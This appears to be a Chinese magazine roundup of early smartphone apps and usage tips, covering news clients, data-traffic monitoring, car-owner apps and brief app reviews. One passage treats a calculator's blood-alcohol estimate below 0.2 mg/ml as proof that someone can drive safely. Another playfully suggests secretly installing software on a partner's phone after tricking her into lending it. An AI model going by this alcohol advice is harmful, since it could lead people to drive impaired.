人的一生中总有很多美好的瞬间，让人时刻记忆犹新，让人久久不能忘怀，在这些让你感动的、热血沸腾的时间段中，你会感到生活是这样的美好有力。对于热恋中的GG来说，和MM在一起发生的点点滴滴都是要用手机记录下来的哦，这不，再过几天就是MM的生日了，于是GG决定送给MM一个特别的“生日礼物”。GG要送给MM的生日礼物就是自己制作一段视频，然后在神不知鬼不觉的情况下放到MM的手机上，并用 “Video live wallpaper” 设置为桌面视频动态壁纸。

1.  第一步：首先需要在手机上找到平时拍摄下的和MM在一起的亲密视频，然后理出一个线索，比如从和MM的相识——相知——相恋，最后是生日祝福和爱情宣言即可。
2.  第二步：接下来在电脑中运行 “Windows Movie Maker” (http://www.onlinedown.net/softdown/38415_2.htm) 对视频进行编辑，在编辑过程中可以对这段视频进行添加文字和特效的一些操作：为了保持播放效果，建议这段视频的长度最好不要超过一分钟，完成后保存这段视频备用，在MM生日前一天的一个偶然的机会骗到MM的手机，然后在她的手机上安装上 “Video live wallpaper”，并把你制作完成的视频拷贝到她手机中，测试完美运行后，就还给她手机给她一个惊喜吧！相信你的MM肯定会感动得稀里哗啦的哦！

# 手机看新闻 资讯尽掌握

说到看新闻，自从互联网普及后人们的阅读方式就从看报纸改成了网络阅读，做为网站新闻编辑的小莫更是每天都会关注着最新的新闻事件，每天到公司的事就是各大门户网站中搜寻自己需要的新闻素材。现如今，他只需在上班出门前把手机连接到家里的无线网进行下载，就可以在漫漫的上班路上离线阅读最新的新闻。而给他送来这份“精神早餐”的正是各大门户网站推出的新闻客户端，在这些新闻客户端当中，除了严重“同质化”的新闻，又有哪些新闻背后的，能满足我们需要，满足个性化需求的东西呢？

## 搜狐

“天下无奇不有，新闻无所不包”这是很多人对搜狐网站的评价，在搜狐新闻客户端我们同样能感受到，从打开客户端映入眼帘的栏目名称“网上那点事”、“八卦周刊”我们就能体会到搜狐特有的这种气质。
除了栏目设置有个性外，客户端里的内容也是无所不包，报纸、杂志甚至连最火热的团购优惠都囊括其中，用户可以通过客户端直接浏览团购网站的商品信息，这些内容的添加给人的感觉就是搜狐新闻客户端已经不仅仅是一个新闻的获取软件，更像是一个生活必备小帮手。
除此之外，搜狐客户端的另一大特点就是推送功能很强大，只要你订阅了相关内容，手机在联网状态下，每周一至周五早8点晚6点，周六日上午都会收到搜狐新闻报，这种感觉就像是当年的邮局投递报纸一样亲切，与其说这是新闻客户端不如说这是实用的掌上报纸更贴切。

## 网易

“无跟帖，不新闻”和“有态度的门户”是门户网站网易的最大特色，也是网易区别于其它门户的独特之处，网易也将该特色成功移植到新闻客户端，可以说网易的精彩评论已远远超过新闻本身，网易评论的“盖楼特色”表现出极强的网友互动性，我们可以看到在客户端每条新闻的下方都有一个写跟帖的窗口，用户能方便地跟帖来各抒己见，而这些评论也能让我们充分地发挥自己的聪明才智，满足自我展示的需求，此外，客户端内置的投票系统也可以让我们参与到热门事件的投票活动中，这也是网易特有的增强读者互动的有效手段。
除跟帖外，网易新闻客户端的另一大特色就是开设了新闻专题栏目，栏目对国内、国外重大事件会做出特别报道，不但满足阅读者的求知欲而且对问题深入分析和报道让阅读者能了解事件背后的故事以及事件跟进情况。

## 腾讯

“庞大的用户关系链”是腾讯的特色，借助QQ客户端、QQ空间和QQ朋友等一系列具有联动效应的社交网络，使得腾讯用户具有极大的粘着性，如今，腾讯也已经把这种关系链复制到新闻客户端平台上，腾讯微博、好友分享等功能都在新闻客户端上有所体现。
腾讯新闻客户端最大的亮点就是为了给用户节省Gprs流量，对含有图片的新闻，用户可先预览其中的小图，如果感兴趣，可再点击查看大图，这点还是非常厚道的，另外，用户进入“图片新闻”频道后，如果点击左下角的“下载”项，即可将该图片设置为壁纸或保存到手机SD卡中，将最精彩的视觉图片转发分享给您空间里的每一位好朋友和微博中的听众也是体现您品味的一种方式。
此外，腾讯对iOS系统的用户特别推出了“爱看”阅读客户端，不但可以阅读Google Reader的内容，更可以看到《南方周末》、《财新》、《商业价值》等大牌杂志，同时，爱看会自动推荐“爱看精华”，在深度内容上有着其他客户端无可匹敌的优越性。
对比各新闻客户端的表现，网易尤其专注于保持其评论特色，而腾讯延续了其即时通讯客户端优势，搜狐则抓住了生活这根主线，不同的发展方向及理念也将培养不同的用户习惯，对于我们用户来说，也乐意看到软件发展的差异化，以此满足我们不同的需求，而不希望它像互联网一样存在太多模仿、抄袭、相似化的产品。

## 新闻客户端对比

| 新闻客户端 | 网易 | 搜狐 | 腾讯 |
| --- | --- | --- | --- |
| 首页 | 较好 | 一般 | 一般 |
| 回帖功能 | 有 | 无 | 有 |
| 离线下载阅读 | 支持 | 不支持 | 不支持 |
| 投票功能 | 有 | 无 | 无 |
| 图片新闻 | 有 | 有 | 有(支持图片下载) |
| 新闻推送 | 支持 | 支持 | 不支持 |

# 实际流量VS计费流量——莫让流量监控软件欺骗你

## 1. 突然出现大流量

谷歌地图是android手机默认安装的软件，由于无需安装，使用方便，因此受到刚刚使用智能机朋友的喜欢，可是一段时间以后，不少使用谷歌地图的用户深有体会，出游的时候一不小心就会用到手机欠费的悲惨遭遇，是什么原因让手机突然出现这么大的流量呢？由于谷歌无官方的离线地图，很多人解释为地图数据流量很大。
可是，如此大的信息果真是地图本身的数据吗？前几天，笔者外出使用谷歌地图，偶然发现，来电通流量监控软件提示出现大流量信息，笔者吓了一跳，什么软件导致1个多小时出现20多兆的流量，笔者手机每个月包流量100M，超出1M 1元钱，这么用可无论如何不行呀，因此，第一反应是关掉手机的网络连接。

## 2. 查看流量细节信息

安卓手机最主要的应用是网络应用，离开了网络应用，安卓手机也就等同于山寨，不能因噎废食吧，流量再大，还是要用网络呀，可是，这个大流量也太恐怖了点，谁是真正的流量杀手呢？让我们使用上网管家 (http://www.skycn.com/soft/57841.html) 仔细研究，找出这个流量杀手。
单击“联网监控”菜单，让我们看看到底是谁在消耗流量呢？排在第一位的uc浏览器：接近50M，第二位的是网络位置：43.4M，第三位的是Field Test:17.68M，等等，这不是早超过100M了么！！！最痛苦的事出现了，一个月刚刚开始，怎么流量全被消耗完了。

## 3. 流量到底多少

到底谁在偷我的流量，眼睛一扫，排在第二、第三位的网络位置和Field Test，压根都没有用过，肯定是它们偷流量，上网查询，发现很多朋友在控诉谷歌，说谷歌的网络位置和Field Test在偷自己的流量。
到底是什么原因呢？到底流量多少呢？联想到谷歌公司一贯的表现，还是慎重一点的好，进入移动网上营业厅 (wap.10086.cn)，单击GPRS流量查询，即可查出当前的流量，从查询可以看出，仅仅只有50.95M，远小于这些软件显示的流量。

## 4. 实际流量 VS 计费流量

实际上，由于计算方法不同，监控软件统计的流量和电信运营商计费流量通常并不一致，例如，排行第二的网络位置，主要用于和手机基站联系确定位置，虽然数据量有时候很大，但是运营商不真正计入流量或者极少计入计费流量，Field Test用于查看基站数据，例如BCCH、CID、LAC，以及信号强度等，这些运营商也是不计入流量，但是手机本身由于有流量产生，因此监控软件记录了这些流量。
除此之外，一般来说，各大运营商登录移动营业厅流量、收发彩信流量，通常不进行计费，为了促销新业务，还会对如手机报 (WAP版)、移动支付、号簿管家业务等等新业务的流量直接免费，而监控软件则无法识别这些免费流量，从而导致流量的计算不一致。
以上的流量因人而异，有的时候可能很大，有的时候很小，笔者目前已经有30M左右。

## 5. 流量校正，让包月不再遗憾

由于有实际流量和计费流量的差别，因此建议大家每隔一定时间登录移动网上营业厅查询自己的实际流量，进行流量校正，流量监控软件通常都有流量校正功能，对于来电通来说，单击菜单键，选择“调整本月已用流量”，输入实际流量即可。
（河南/赵建超）

# 让爱机成为照顾“宝宝”的好帮手

对于刚有宝宝的年轻爸妈来说，生命中又出现了一个让你深爱的人，那可是你爱情的结晶，生命的延续。如果可能的话，一整天陪伴在孩子的身体也不会疲惫，宝宝每天的变化都会成为你生活中一个幸福的点缀。这个时候，你的爱机可以帮上什么忙呢？和笔者一起来看看吧。

# 宝宝监控 TA睡醒了早知道

很多宝宝都喜欢睡觉，在TA睡觉的时间，妈妈可以洗衣服，或者做点自己的事情。但是这个时候又担心宝宝睡醒之后不能在第一时间知道，要知道宝宝的哭声可是在割妈妈的心头肉哦！该怎么办呢？别急用宝宝监控 (http://www.waptw.com/2748/index.html) 吧。

安装运行软件后，点击“选项→设置”，在电话号码输入栏内输入一个你随身携带的手机或者电话的号码，然后在呼叫暂停处设置呼叫暂停时间。接下来退回选项页面选择接听，设置软件运行期间是否接听来电。最后退回软件主界面，选择“选项→激活”即可。这个时候只要把运行着这款软件的电话放到宝宝的摇篮边，你就可以去忙自己的事情了，当宝宝醒来的时候只要TA有动作软件就会自动拨通你先前设置的电话号码，在第一时间通知你宝宝已经睡醒了。

## 小提示：

该软件是通过声音分贝的识别来执行呼叫命令的，所以我们要设置适中的分贝。在软件主界面，右侧的声音控制柱就是显示的分贝的大小。控制标记往下则是减小分贝，往上则是增大识别的分贝。

（文/清风慕缘）

# 服务在“掌中” 车主更轻松

汽车，现在已经不再是身份的代表和高贵的象征。越来越多的人们开始拥有了汽车作为代步工具。但是很多车主只会开车，并不懂得该如何正确使用和保养汽车。而现在，我们可以利用智能手机软件来帮我们更方便更节约地用车了。

小明做着一家公司的业务员，平时经常要开车出去跑业务。而周末还要带家人去公园或郊区游玩，开车五年来，在他身上发生了不少与车有关的糗事。现如今，小明利用手机软件就能轻松搞定用车带来的困扰。

# 汽车没油心也不慌

小明和他老婆谈恋爱的时候正值盛夏，空调一开，也没注意看油表就急着去接老婆出去玩。快到老婆家的时候，车子就给搁在路上了。小明急忙把车推到路边，给老婆打电话问附近哪儿有加油站，费了一番周折后终于给车加足了燃料。现在的小明养成了上车先看油表的习惯，但是智者千虑，也怕有一失。小明在手机上安装了“赶集司机助手”，无论走到哪里都可以快速找到加油站，也不用再到处打电话询问了。“赶集司机助手”不仅可以定位，马上显示出现在的位置，并迅速找到周围的加油站，还能够指示出行车路线，非常贴心。

# 酒后自查 咱有代驾

外出跑业务免不了要陪客户吃饭，饭桌上没有酒就办不成事。小明的老婆也深知这个道理，所以在小明的手机给他安装了“酒精浓度计算器”和“易到用车”服务软件。

凡是在酒后开车前，利用“酒精浓度计算器”分别输入“性别”和“体重”以及饮酒量和酒精度数。点击“计算”，结果很快显示出来。如果当前血液的酒精浓度低于0.2毫克/毫升，就可以安全开车了。

小明在用了一段时间后基本掌握了规律，像他这样体重的男性，如果喝了两听以上的啤酒，那么至少需要6小时后才能开车，而且同样体重的女性酒精含量要多于男性。

如果测量计算结果大于0.2毫克/毫升，又有急事需要处理怎么办呢？这时候“易到用车”就派上用场了。“易到用车”作为一款酒后代驾服务软件已经被越来越多的商务人士熟知并应用了。

在使用“易到用车”前需要先注册会员。注册时手机号一定要填写正确，因为公司在派车前会先进行电话联系。

# 预定用车及目的地

目前“易到用车”只在北京和深圳这四个城市提供服务。在软件界面选择起点（也就是目前所在地），然后选择“我知道要去哪”。

# 修改信息

填入正确的姓名，电话是注册时用的，不用改，再根据情况选择用车时间。如果是给单位办事可以选择是否报销是否要发票，以及输入发票的详细信息。接下来可以选择车型。最后会出现“完成订单”的对话框，告诉用户选择的车型、单价、计费时长、费用和支付方式等信息。确认没有问题后，点击“确定”完成下单。

注：使用“易到用车”需要提前一个小时预订，到时间“易到用车”会派司机和车在指定的地点等待客人。当然在派车前公司都会和预订人电话联系确认订单。另外“易到用车”还很人性化地提供半小时的免费等车时间。

# 开车上路 一路畅通

在北京开车最痛疼的事情就是交通拥堵，小明曾经好几次因为拥堵而迟到了与客户见面。虽然他已经把出门时间提前了很多，但是出门上路后的交通状况就不是他能决定的了。后来小明的老婆给小明找了一款能用在智能手机和平板电脑上的软件——“路况简报”。

软件每次启动都要初始化，即更新到最新数据。第一次使用的时候更新的时间会稍长，以后就会好些。第一次使用需要选择所在城市，目前软件有北京、上海、成都、沈阳、深圳和太原等城市可选择。在使用时，软件会根据你的行驶位置将地图分解成东、西、南、北四段，绿色代表畅通，黄色代表车流量大，红色代表拥堵。同时软件下方还会显示各路段的大致行驶速度，这样我们就可以挑选绿色或黄色的大路段行驶，从而躲过严重拥堵的道路。除了用“路况简报”选择路线外，我们还可以收听交通台的广播。在早晚高峰的时候，交通台的广播会实时播报路上哪儿出现故障车，哪里出现堵塞，有了这些消息，开车在路上就更加畅通无阻了。

# 高速行车 实时监控

小明的公司最近在省外开发了几个项目，作为项目经理的他经常要亲自去查看项目进度。因此这一段时间小明经常需要独自跑高速，最担心他的当然是他的老婆，所以老婆规定小明下了高速的第一件事就是给她打个平安电话。同时，她还给小明的手机上装了一个“车祸紧急报警”软件，软件在发生紧急情况能够自动发短信报警，有了双保险，她的心总算可以踏实点了。

# 设置联系人

软件要求手机具有卫星定位功能，否则无法使用。在软件的“通知的联系人”一项设置联系人。一次可以添加多个联系人，我们可以把单位同事或朋友的电话也加入。点击“应用”生效，然后进入“短信模板”，根据需要设置相关内容。一般不用修改，用默认的即可。

# 实时监控

每次上高速之前打开软件，点击“开始”，让软件开始监测。一旦出现车祸，手机出现剧烈震荡，就会弹出对话框，并且发出尖锐的报警声。如果是误操作触发，而不是车祸引起的，就依次点击1、2、3，取消报警。如果在指定的一分钟内没有任何反应，系统就会开始获取小明所在位置，并向联系人发出一条短信。这时小明的老婆手机上就会收到该短信，短信内容包括小明位置的经度、纬度和详细地址，如果真的是发生了意外，可以为抢救提供最详细的信息。当然，小明的老婆希望永远也不要收到这样的短信！

# 车辆故障 自查原因

虽然开了这么多年的车，但是说到对车的了解和维修，小明还是一窍不通。一是平时开车的习惯好，很少出故障；二是注意保养。只要车辆一有不良反应，他就会马上去4S店对车辆进行检查。最近他感觉车有点动力不足，而且发动机的噪音也越来越大。怎么会出现这样的问题呢？他打了几个电话咨询了一下朋友，也没有得到满意的答案。不过有一位朋友却向他推荐了一款很给力的软件——“车给力”。

## 故障诊断 自查原因

利用“车给力”的“故障诊断”功能，小明可以根据感觉、听到、见到、闻到的现象简单判断出故障的大致部位，同时软件会给出相应的指导，以及大致该如何处理。

## 网友互动 解决问题

软件的“车主问答”栏目里面有不少网友提出关于车的各种问题，也有不少网友给出回答。这里就是一个互帮互助的小社区，看来“车给力”很适合小明这样的“车盲”。通过对照故障诊断表和网友的解答，小明知道车辆入冬后由于天气变冷，车辆就会出现动力不足的症状，而且与他所加的汽油也有关系。看来小明又该去4S店给车辆做冬季保养了。

# 手机当直尺 测量工具随身装

一年一度的高考结束了，这让笔者也回忆起了往事。在做理科题的时候，往往要用来直尺和量角器。而现实生活中，这些东西却是时常用到的，但又不一定带在身上。在这个时候怎么办呢？笔者想到了手机。在手机的屏幕上显示直尺的刻度或者是量角器的角度，就可以很好地解决这个问题了。做PCB设计的研发工程师，也可以用手机做直尺，来简单地测量一些元件的外形尺寸，十分实用。笔者在网上搜索了一下，发现已经有人开发出了这样的软件，叫“ruler 直尺”。如果需要的朋友手机可以直接安装使用此软件的话，那也可以。如果手机无法安装，那么朋友可以自行制作一张带直尺刻度的图片，作为手机的桌面背景，就可以用于测量了。需要注意的是，要根据自己的手机屏幕尺寸，来确定图片的大小和比例，直到精确为止。



（文/孟嗣贵）

# 让你的手指做运动

# 手机“手势操作”才给力

利用手势滑动操作一直是掌上手机WebOS的特色功能，同样是触控屏操作的Android系统难道就只能看着“眼馋”吗？当然不，只需一款小程序，任何Android手机就都能享用手势启动程序的便捷。

手势操作的好处就是可以脱离手机上的物理按键，启动程序、切换程序只需在屏幕上轻轻滑动就能一步解决。而“手势桌面启动器”（Wave Launcher，下载地址：http://u.115.com/file/dn9ypa4s）就能帮你实现这一功能。

在手机上安装并运行“手势启动器”，在“设置”菜单中可以设定波形的数量（最多12个），在“编辑波形”中则可分别为每个快捷方式指定具体的程序。看到软件界面下方的一排“+”了吗？点击某个“+”后就能在程序列表中选择程序，选择后这个“+”就会变成这个程序的图标。依法炮制就能为12个程序设定快捷启动的方式了。

无论你手机正在看电影还是玩游戏，只要先按住屏幕底端往上一拉，12个快捷程序的波形图标就会随手指顺势滑出，左右滑动手指则可在这些波形图标间移动，接下来就能从中挑选你想要启动的程序，或者在任意程序间进行多任务切换，而不必进行“返回主页→进入程序列表→选择程序”这一套繁琐的步骤了。

小提示：
在“调整手势”菜单中可以设置手势启动的方向，笔者建议选择从屏幕底端启动手势的设置，避免在左右滑动屏幕时与启动手势发生冲突。

# 手机软件串串烧

# 掌中英语

平台：Android
简介：掌中英语是一款免费多媒体手机英语学习软件，以英语课程学习为中心，汇集考试、广播、品牌教材、名著散文等丰富资源的学习资源为基础，提供听、说、读、写视频等多种学习形式，在手机上随时随地学习的完全免费多媒体手机英语学习软件。从2010年面世至今，已经被不少英语爱好者选为手机必备软件之一。为广大用户提供了更便捷的英语学习方式，正在众多英语爱好者圈中流行。选择掌中英语，与千万英语爱好者一起互动交流，一起学习进步，让英语学习不再枯燥。

# 天天浏览器

平台：Android
简介：天天浏览器—专为Android打造，目前为止功能较全面的浏览器。天天浏览器支持HTML5影音播放，支持浏览WAP/WEB网站，速度比较快，可以节省流量。支持多点触控放大缩小页面，特有论坛及全屏模式，还可以下载防病毒，应用比较实用，另外此浏览器还备有精选网页导航，是一款很实用的手机浏览器！

# ezPDF Reader

平台：Android
简介：ezPDF Reader是一款新兴但最具自己特色的PDF阅读器，能够适应屏幕的方式浏览，支持多点触摸缩放，以及页面滚动，支持轨迹球、超链接、书签及列表浏览，还能打开加密的PDF文件。翻页时还有动画效果，速度也非常不错。

# Wind 资讯股票基金债券投资专家 HD

平台：Symbian
简介：Wind资讯股票基金债券投资专家HD是专注于为中国机构投资者提供服务的Wind资讯（万得资讯）推出的移动领域的证券分析软件，可以与50000位金融专家共享全新的证券投资体验。覆盖全球金融市场的数据与信息，包含股票、债券、期货、外汇、基金、指数、宏观与行业等品种，7×24×365不间断提供准确、及时、完整的金融资讯。此软件与Wind资讯PC终端统一登录账号，可以在电脑终端、平板（iPad等）终端、手机终端中共享自选股、组合与新闻订阅。

# 驾考宝典

平台：Symbian
简介：驾考宝典是一款驾驶员模拟考试软件，集成2010版全国标准题库，用户可设置车型来备考A、B、C类驾照考试。驾考宝典通过章节练习、随机练习、模拟考试等功能强化交规记忆，交通标志、事故图解等图文诠释交通法规，清晰易懂。熟记宝典900题，驾照考试一次过！

# Android 天气通儿童纪念版

平台：Android
简介：为了迎合时下流行的童真童趣风格，Android天气通特别推出儿童纪念版本。整体的画面让人十分的爱不释手，有爱的童鞋速度啊！Android天气通儿童版功能：专版设计黑板报界面+两个特别桌面插件，为纪念版专门录制蜡笔小星语音天气播报，支持解锁天气动画，分享多日天气截图，支持彩信，可以分享天气到微博、人人网等。

# 俏媚来电

平台：Symbian S60
简介：俏媚来电是一款虚拟来电软件，可以智能模拟任意号码来电，功能新颖、妙趣横生。通过自由设置来电显示名称或者号码、时间和铃声，以及启动快捷键，操作简单，让你迅速摆脱某些场合特殊情况，从应酬中抽身免除尴尬，也是好友整蛊的趣味软件。

# 卓彩中奖王

平台：Symbian S60
简介：此款软件可以实现通过手机购买福利彩票双色球、3D等彩种，同时有开奖信息查询、图表分析等服务。通过资讯了解更多奖励，还可以给我们留言提出您的宝贵意见，随时、随心、随意购彩，还在犹豫什么呢？赶快使用卓彩中奖王！更多大奖等你拿。

# 悦 TV

平台：iOS
简介：手机视频微博诞生啦！“悦TV”提供手机视频拍摄功能，直接使用机身摄像头拍摄，拍摄完成后直接手机上传且支持所有网络的上传方式，方便快捷。此款软件能同步绑定微博，视频拍摄完成后即可同步显示在微博上，让所有的粉丝都能观看到你拍摄的视频。功能强大，快来试试吧！

# 随身翻

平台：iOS
简介：本软件拥有直觉化的“即视即译”功能，只要将iPhone镜头对准需要翻译的文字，就能直接看到在线翻译结果。支援繁中/简中、英、日、韩、法、德、义、西等多国语系影像辨识功能，无须输入就能进行查询，且可以针对大量文字信息或需要详细了解该文字的使用方式，也可透过iPhone镜头拍摄，逐字点选即可在线查询。此款软件可自动储存查询纪录，或是自建常用词库，大幅节省时间。注：必须有连上网路才可以使用翻译功能。

# 魔幻时刻相机 Magic Hour-Camera

平台：Android
简介：魔幻时刻相机Magic Hour - Camera是一款安卓平台上功能非常强大的拍照增强工具，它可以特效处理你的照片，令其拍出来的照片不同凡响。一共包含40款效果非常出色的滤镜，还可以调整照片曲线、饱和度、亮度等参数。另外还拥有有23种材质纹理与12款外框选择。总体不错，市场评价比较高！

软件特点：使用网格，触摸屏拍照功能，闪光功能和前置摄像头；保存原始照片功能；通过软件提供的40种过滤器，你能够轻松拍摄出艺术作品级的照片；使用曲线、饱和度、亮度、对比度、8种片段样式、23种不同的纹理和12种框架，创建自己的过滤器并随时进行编辑，你能够共享你的作品。

# 团购大全

平台：Android
简介：团购大全是团800专为Android手机用户推出的团购应用，提供每日最新的团购信息，具有团购信息查询、购买、收藏、管理、导航等功能，为用户带来方便快捷的手机团购体验。无论在上班路上、回家途中、闲暇时间，随时随地关注精品团购，本软件做到大中城市全面覆盖，支持全国85个城市，无论在哪，都有用户关注的团购信息。

# 好习惯

平台：Symbian S60 第三版
简介：养成一个好的习惯是如此的重要，那现在就让好习惯来帮助您。好习惯是一款非常实用的软件，简单易用，添加任务，完成任务，设定到期时间并提醒等功能一应俱全，各项设置非常人性化，在形形色色功能众多界面华丽的记事类软件中，这是非常精致简洁但是很实用的一款，值得一试！

# 万花筒

平台：Symbian S60
简介：你上下班路上无聊怎么办？错过了喜爱的球赛和节目怎么办？这些问题都将由万花筒来解决！把电视搬到手机里，让电影院飞，让电脑走开！万花筒轻松做到，最新电影大片，热播电视剧，以及各种火爆网络视频短片全天24小时满足你的视觉盛宴，相信它能给你带来前所未有的时尚潮流体验。

# 翻客

平台：iOS
简介：翻客是一款手机互动娱乐游戏。您只要翻翻、看看，就可以获得轻松有趣的娱乐体验。游戏过程中充满惊喜，实物或虚拟奖品，内嵌手机游戏，道具互动，新闻，美图，笑话，微博集锦，都会让你翻起来，停不住！

# 微信

平台：iOS
简介：微信，能发照片的免费短信！基于iPhone、iPod touch平台的腾讯微信服务，带给您全新的移动即时通信体验。你可以使用微信软件快速免费的发送短信，即时拍照分享，可调用手机拍照或插入相册图片，照片任意发，不用支付彩信费用，随时随地联系身边的朋友。值得一提的是，如果好友正在给你发消息，会显示“对方正在输入...”的QQ特有状态。

# 超级指纹扫描仪

平台：Android
简介：超级指纹扫描仪，类似于电脑的指纹扫描器，简单实用，一键指纹解锁，需要获取root权限，其实不是扫描指纹，而是根据你按住屏幕的时间而解锁，可以设置响应多少次而解开锁，当你按住屏幕，开始模拟扫描时，有提示音或振动，根据设置的次数，放开手指即可解开！

# 微拍

平台：Android
简介：微拍是国内首款基于手机的微视频社交软件，你可以用实时有趣的方式来和朋友分享视频，晒晒你的最新心情，亮亮你的最新靓照。本软件可以录一段三分钟的微视频，专为联通3G定制，并适用于WIFI网络。

# 兜兜友

平台：Android
简介：兜兜友是基于GPS位置的全新交友软件，通过搜索周边用户，邂逅，分享图片，活动等信息让你随时随地结交新朋友，扩充自己的人脉关系，让你的朋友遍天下，独具真实的位置信息邂逅偶遇功能，建立即时快速的聊天沟通环境，完善的图片、文字分享模式，摇摇你的手机与邂逅的那个TA，一起体验心动的感觉吧。

# 找找地图

平台：Symbian S60 第三版
简介：拥有全球GPS定位和移动基站数据双重定位系统，导航定位功能，一目了然您当前所在的位置，强大的“卫星图像”操作界面，提供“到达地点”的公交和自驾方案，实时路况街景，让您远离拥堵，查询当前您所在位置的各类餐厅、加油站、医院、学校等商住信息，提供全国400个城市的全景地图数据，包含所辖市、县、镇及80万行政地名，实时更新全国路网，火车时刻表，飞机航班起降信息及票价查询。

# 国信金太阳手机证券

平台：Symbian S60 第五版
简介：国信金太阳手机证券是目前唯一一款证券公司自己开发的手机炒股软件。国信证券“金太阳”手机炒股软件是证券公司中唯一的一款自己开发的软件，金太阳原代码由证券公司所保存，金太阳数据不通过第三方，所以其资料信息的安全性高，其使用价值最高，也是目前使用客户最多的手机炒股软件，而其他手机炒股软件都是证券公司委托其他软件公司开发，其知识产权和原代码都为软件公司所有，这在一定程度上降低了其软件使用的安全性和资料信息的可靠性。

# 码上淘

平台：Symbian S60
简介：码上淘手机软件是易拍酷推出的一款针对条码和二维码扫码识别手机应用软件，通过该软件可实现淘宝比价及资源下载的双重功能，为用户提供线下购物时的价格参考及在没有数据线或蓝牙的情况下实现直接下载网络资源到手机上。该软件结合PC互联网和手机双方面优势，为用户提供实用、便捷的手机全新体验。用户逛街购物时可通过该软件扫描商品上的条码即可获得该商品在相关网店的价格，从而为用户提供价格参考，所有扫描过的商品都记录在比价记录里，用户可随时查看。

# Weico 微博客户端

平台：iOS
简介：Weico是一款全新独特的新浪微博iPhone客户端，最大的亮点在于极大优化和丰富了移动微博的使用体验，提供流畅、快速、贴心、美妙的使用体验和感官享受。这是一款由设计驱动的客户端产品，由 eico design 为新浪微博iPhone用户精心打造的，除了优化浏览操作，信息呈现，界面布局等使用体验外，Weico还提供了富有个性化，精致的视觉主题，允许大家随着心情变化主题，Weico希望能给大家带来流畅而多彩的微博探索之旅！

# 酷我电台

平台：iOS
简介：iPhone版酷我电台是免费电台式在线音乐收听应用，丰富频道海量歌曲，轻松收听， 224kbps码率清晰音质歌曲放送，全日无休，私人频道智能学习您的口味，为您找到您最爱的歌，贴心服务，打造自己专属的音乐心灵驿站。注：酷我电台与iPhone、iPod touch, iPad兼容，需要iOS4.0或更高版本。

# 谷歌阅读器 gReader

平台：Android
简介：gReader是一个非官方的谷歌阅读器的Android客户端，用它可以在Google Reader上阅读所有订阅的新闻，软件使用的是api方式，支持添加订阅与取消订阅，支持图文混排显示，支持直接读取原html页面，支持定时更新，铃声与振动通知，支持阅读字体的设置，支持阅读时放大缩小。

# 名片碰碰

平台：Android
简介：碰碰手机即可互换名片，并自动存储到自己的手机通讯录，体现了“实用，科技，环保”的设计理念，名片碰碰是一款基于地址位置而实现的交换名片，只需要在同一地方碰碰手机或者摇摇手机即可实现名片交换，并快速与手机通讯录融为一体，体现了“快捷商务，时尚智能，科技环保”理念！

# 安全管家

平台：Android
简介：安全管家是一款永久免费的全功能手机安全软件，它覆盖了手机防盗，流氓病毒查杀，网络防火墙，上网流量监控，系统优化清理，垃圾短信过滤，骚扰电话拦截，扣费短信监控，程序进程管理，软件评分评论，归属地显示，隐私保护等时下用户需求最高的功能，在提供最便捷操作的同时，带给您全方位的贴身呵护。

# 591up 公务员考试应战平台

平台：Symbian S60 第三版
简介：591up公务员考试应战平台是准备公务员考试及企、事业单位招聘考试必备的随身利器。全面涵盖近年来各地公务员考试真题及模考题，内容包括：政治、经济、文化、自然科学常识，判断推理，数学逻辑……考公必备，非考公人士也一样可以对其有爱。备有错题库；“温故而知新，可以为师矣”。独创的错题分类系统及两种错题处理方式（重做，查看）让您有效处理各类错题，节省时间，提高记忆效果。

# 弹指聊天（实时语音版）

平台：Symbian S60 第三版
简介：弹指聊天全新实时语音版本华丽发布，独创GPRS语音实时传输及流量压缩技术，更省流量，软件界面优化合理，气泡式短信聊天体验，您可以清晰的知道每条消息是“发送中”，“已送达”还是“对方已读”，沟通更加有效。

# 超炫天气闹钟专业版

平台：iOS
简介：超炫天气闹钟专业版不仅将天气预报与闹钟完美结合，还是一个功能齐全的音乐闹钟，她内置了手电功能，您还可以用照片作为天气背景，您将体验到优雅的经典翻牌式闹钟，它包括一个能够反映户外实时天气条件的背景，外加未来数天的天气预报，让您足不出户便可知道室外天气，这个应用专门针对 iPhone 4 用户高分辨率的Retina屏幕进行了优化。

# 挑西瓜

平台：iOS
简介：iWatermelon是个能够解读当你拍击西瓜所传回来的声音的应用程式，它使用一个独一无二的专属公式，它能够依据西瓜的大小、颜色和拍击时的声音，来决定这颗西瓜到底甜不甜，你所需要做的事是把你的iPhone放在想要的西瓜上，选择它的大约的大小和颜色，然后拍这颗西瓜三下。

# 减肥水，健康水

平台：iOS
简介：按照成人的基准每天平均需要追加饮用1~2L的水。此款软件可以提醒我们规律的饮用，可以制定饮水目标。打开日历，指定日期，可查看每天的喝水量，可查看每天的各个时段喝了几的水的清单。图表查看功能，可一目了然查看目标达成度及其变化，最多可制定10个饮水时间并设定闹钟。

# 愤怒的小鸟闹钟

平台：Android
简介：让愤怒的小鸟叫醒您吧！可以让可恶的猪或者可恨的乌鸦叫醒您，或者用过关的声音叫您起床；操作简单，实用；专业的界面设计，适合有个性的你；铃声还支持语音报时，不一样的创意体验；铃声还支持自选模式，适合大家的需求，还支持震动提醒哟。

# 美食达人

平台：Android
简介：美食达人是一个基于地理信息的美食分享服务，旨在为所有美食爱好者提供一个记录和分享美食的社交平台，形成独特的饮食文化社区。如果你喜欢随拍美食，记录那一刻的快乐和温馨；如果你喜欢探索美食小店，品味小小发现带来的大大惊喜；如果你喜欢搜寻便宜甚至免费的大餐，犒劳辛苦奋斗的自己；如果你喜欢灌水分享，对评论和吐槽津津乐道。

# 导航犬 navidog

平台：Android
简介：“导航犬”是一款在线式GPS手机导航服务系统，为用户提供从当前位置到目的地的实时语音图像导航服务，你只需通过手机输入目的地或拨通导航秘书专线电话告知目的地，“导航犬”就会为您选择一条最优的路线发送到手机上。

# Sports tracker

平台：Symbian S60 第三版
简介：Sports tracker这个软件可以配合手机的GPS功能，在使用者出门慢跑或骑自行车运动的时候记录运动路径、速度、消耗的热量等，这对现代都市男女很有益处，无论你要走的路线是什么，只要查看本软件的实测距离就能很好的完成自己每天的运动计划，想减肥的美眉们不妨一试。

# Wellness Diary 健康日记

平台：Symbian S60 第三版
简介：健康日记 (Wellness Diary) 在个人的日常和长期的健康管理方面能够轻松地扮演积极的角色，能够每天检测和跟踪健康参数，包括体重，饮食习惯、锻炼情况和血压等。由于这些健康记录存储在个人的移动设备上；因此，它们具有私密性、日常快速使用方便性以及移动数据的便捷性，这样，医生或个人教练能够方便地共享这些健康记录。

# 和谐动车

平台：iOS
